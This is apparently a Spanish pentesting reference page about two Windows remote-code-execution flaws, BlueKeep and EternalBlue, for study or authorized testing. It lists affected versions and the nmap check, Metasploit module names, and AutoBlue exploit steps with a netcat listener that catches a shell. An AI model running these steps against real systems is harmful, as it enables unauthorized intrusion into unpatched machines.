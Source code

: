 ```yaml
---
title: "Vulnerabilidades Mas Conocidas"
layout: "single"
category: "Windows Pentesting"
slug: "windows-pentesting/vulnerabilidades-mas-conocidas"
date: "2025-09-30"
---
```


### BlueKeep
Vulnerabilidad que afecta a sistemas windows con RDP que permite aconotecer un RCE **(CVE-2019-0708)** Ya que accede a una parte de la memoria del kernel y nos permite ejecutar código.

Afecta a:
* XP
* Vista
* Windows 7
* Windows server 2008 y 2008R2

#### Explotar BlueKeep con metasploit
```bash
search bluekeep
usar

Si da error, es por que hay que elegir el target (S.O) de manera manual,. para ello:
show targets (y elegir el correspondiente)
```

### Eternalblue
Vulnerabilidad que afecta a sistemas operativos windows relativamente antiguos, (Windows 7, Windows server 2008), que nos permite ejecución remota de comandos. el CVE: **CVE-2017-0143** y **MS17-010** 

Al detectar esto con nmap, se puede llegar a explotar de diferentes maneras:
```bash
nmap 10.10.10.4 --script "smb-vuln-ms17-010" -p 445
```

#### Método 1 (Metasploit)
```bash
# Hay varios, si este no funciona, buscar en metasploit una alternativa
use exploit/windows/smb/ms17_010_eternalblue
```

#### Método 2 (Exploit github)
[Link a github](https://github.com/3ndG4me/AutoBlue-MS17-010)

```bash
# Primero preparar el ataque
./shell_prep.sh

# Esto genera ficheros sc_x64.bin o sc_x86.bin depende el S.O
# Nos ponemos a la escucha con nc
nc -nlvp <puerto>

# Ejecutar exploit
python eternalblue_exploit7.py <ip> sc_x64.bin

Para windows 10 (eternalblue_exploit10.py)
```